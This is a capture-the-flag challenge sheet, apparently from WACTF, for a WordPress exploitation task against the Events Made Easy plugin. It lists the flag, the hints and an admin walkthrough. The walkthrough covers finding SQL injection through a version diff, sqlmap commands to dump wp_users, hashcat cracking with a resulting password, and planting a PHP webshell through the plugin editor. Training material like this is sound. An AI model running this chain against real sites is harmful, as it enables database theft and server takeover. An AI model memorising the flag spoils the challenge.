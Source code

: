 | metadata | <> |
|--- | --- |
| Developer Name(s) | sudosammy |
| Best Contact Slack handle / Email address | [redacted] |
| Challenge Category | Exploitation |
| Challenge Tier | 2-2 |
| Challenge Type | Container |

| Player facing | <> |
|--- | --- |
|Challenge Name | Not on my watch #2 |
|Challenge Description | Nice job on that last hack! After sulking for a while, R3kt Sec are back with a new blog. They’ve rotated all of their passwords, migrated to a new database, deleted a bunch of plugins, and updated the plugin that was vulnerable before to the patched version `2.2.80`! We were able to recover a low privileged user account though: `user1` password: `subscriber`… Maybe that will help? The new site is at: `http://exp-2-2` Note: this challenge requires password cracking - most small wordlists will be suitable, for example: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt | 
|Challenge Hint 1 | https://wordpress.org/plugins/events-made-easy/#developers According to the changelog they patched a bunch more SQL injections in the version AFTER the one R3kt Sec have upgraded to. |
|Challenge Hint 2 | Download the `2.2.80` and `2.2.81` versions from the wordpress.org website and use `git diff` to see what has changed. Also `sqmlap` will be your friend here. |

| Admin Facing | <> |
|--- | --- |
|Challenge Flag| WACTF{5174_maybe_we_wont_run_any_more_events} |
|Challenge Vuln| Blind SQLi in plugin, extract hashed password, crack it, use admin panel to get a shell and read file |
|Docker Usage Idle| 90MB RAM |
|Docker Usage Peak| 132MB RAM |
---

**NOTE: This challenge should not be visable to players who haven't completed the one before. It gives too much away**

1. Using your knowledge of the vulnerable plugin from exp-2, identify that more SQLi's were patched according to the changelog
2. Download and `git diff` the changes between the version running and patched version https://downloads.wordpress.org/plugin/events-made-easy.2.2.80.zip and https://downloads.wordpress.org/plugin/events-made-easy.2.2.81.zip
3. Identify dozens of possible SQLi paths, and find one which corresponds to the functionality available to you as the `user1` wordpress account:

```
@@ -4322,15 +4322,15 @@ function eme_ajax_bookings_list() {
                for ($i = 0; $i < count($opt); $i++) {
                        $fld = esc_sql($opt[$i]);
                        if ($fld == "booker") {
-                               $where_arr[] = "(lastname like '%".esc_sql($q[$i])."%' OR firstname '%".esc_sql($q[$i])."%')";
+                               $where_arr[] = "(lastname like '%".esc_sql($wpdb->esc_like($q[$i]))."%' OR firstname '%".esc_sql($wpdb->esc_like($q[$i]))."%')";
                        } else {
-                               $where_arr[] = $fld." like '%".esc_sql($q[$i])."%'";
+                               $where_arr[] = "'$fld' like '%".esc_sql($wpdb->esc_like($q[$i]))."%'";
                        }
                }
        }
        if (!empty($_REQUEST['search_customfields'])) {
                $answers_table = $wpdb->prefix.ANSWERS_TBNAME;
-               $search_customfields=$_REQUEST['search_customfields'];
+               $search_customfields=esc_sql($wpdb->esc_like($_REQUEST['search_customfields']));
                $sql="SELECT related_id FROM $answers_table WHERE answer LIKE '%$search_customfields%' AND type='booking' GROUP BY related_id";
                $booking_ids=$wpdb->get_col($sql);
                if (!empty($booking_ids))
```

4. It's easiest to use Burp to save the request and smash it into sqlmap: `sqlmap -r locations_list.burp -p jtSorting --dbms mysql`
5. Use sqlmap to extract the `wp_users` table just like last time. Player will probably use `--curent-db` first to get the database to use for this command: `sqlmap -r locations_list.burp -p jtSorting --dbms mysql --dump -D wordpress-exp-2-2 -T wp_users` (RIP if they use `wordpress` again...)
6. This time sqlmap won't be able to crack the passwords by default, use hashcat with basically any list: `hashcat -m 400 -a 0 -o crracked.txt wp_hashes.txt /usr/share/wordlists/sqlmap.txt`
7. Login as `mwaha_user_2` wiith cracked creds `$P$BTy3tgGxBN.bduyW/RpMHC8HZAzjRz0 (surf4life)` and get command execution one of the many ways available. The simplest way would be to overwrite a plugin file from `http://exp-2-2/wp-admin/plugin-editor.php` with a simple PHP webshell
